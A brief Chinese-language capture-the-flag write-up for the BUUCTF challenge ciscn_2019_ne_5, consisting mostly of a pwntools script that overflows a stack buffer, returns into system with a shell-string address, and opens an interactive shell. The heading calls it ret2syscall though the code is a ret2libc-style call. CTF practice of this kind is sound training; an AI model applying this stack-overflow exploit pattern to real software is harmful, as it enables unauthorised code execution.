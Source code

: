 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_ne_5)

这个一道ret2syscall(32)，checksec一下

# exp

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
#p=remote('node5.buuoj.cn',26132)
p=process('./ciscn_2019_ne_5')
elf=ELF('./ciscn_2019_ne_5')
system_addr=elf.sym['system']
sh_addr=0x80482ea
payload=b'A'*(0x48+0x4)+p32(system_addr)+p32(0x12345678)+p32(sh_addr)#由于利用printf()来执行所以填充的地址不能有\x00，所以是0x12345678
#gdb.attach(p)
#print(hex(system_addr))
p.sendlineafter('password:',b'administrator')
p.sendlineafter('Exit\n:',b'1')
p.sendlineafter('info:',payload)
p.sendlineafter('Exit\n:',b'4')
p.interactive()
```

